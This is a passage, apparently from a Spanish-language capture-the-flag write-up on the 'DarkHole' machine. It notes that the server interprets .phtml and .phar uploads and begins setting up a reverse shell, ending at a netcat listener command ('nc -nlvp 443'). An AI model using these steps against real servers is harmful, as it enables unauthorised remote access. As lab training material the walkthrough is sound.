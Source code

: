 ![imagen](/images/darkhole/Pasted%20image%2020231021035437.png)

Una vez analizados los archivos, podemos observar que los archivos con extensión: `.phtml, .phar` son los archivos que puede interpretar el servidor:
![imagen](/images/darkhole/Pasted%20image%2020231021035745.png)

#### Implementar Rever Shell
Para implementar una revershell ahora debemos de ejecutar el siguinte comando, lo que nos va a permitir entablar una sesión remota desde nuestra maquina.
Antes de ello, primero debemos estar en escucha en nuestra máquina por el puerto que seleccionamos:
```
nc -nlvp 443
```
